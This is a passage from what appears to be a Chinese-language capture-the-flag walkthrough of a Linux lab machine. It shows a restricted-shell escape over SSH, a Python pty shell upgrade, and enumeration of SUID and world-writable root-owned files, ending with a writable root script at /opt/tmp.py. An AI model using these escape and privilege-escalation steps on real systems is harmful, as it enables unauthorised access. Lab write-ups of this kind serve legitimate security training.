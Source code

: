 ```bash
ssh mindy@192.168.37.131 -t bash
```

![image-20240317192214636](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171944570.png)

#### 也可以添加环境变量

```bash
ssh mindy@192.168.37.131 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/sh\")'"
```

### 信息搜集

```bash
$ uname -a 
# uname -a
# Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686 GNU/Linux
$ find / -perm -u=s -type f 2>/dev/null
# find / -perm -u=s -type f 2>/dev/null
# /bin/su
# /bin/mount
# /bin/fusermount
# /bin/ping
# /bin/ntfs-3g
# /bin/umount
# /usr/bin/newgrp
# /usr/bin/pkexec
# /usr/bin/passwd
# /usr/bin/chsh
# /usr/bin/chfn
# /usr/bin/gpasswd
# /usr/sbin/pppd
# /usr/lib/policykit-1/polkit-agent-helper-1
# /usr/lib/openssh/ssh-keysign
# /usr/lib/eject/dmcrypt-get-device
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/xorg/Xorg.wrap
# /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
$ find / -type f -user root -perm -o=w 2>/dev/null     # 寻找user可执行的root权限文件
# find / -type f -user root -perm -o=w 2>/dev/null
# /opt/tmp.py
# ........
```

第一个就是`python`文件，看一下，剩下太多了，都是配置文件，先看`python`文件！还有一个`/sys/fs/cgroup/memory/cgroup.event_control`，一个一个来：

```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```
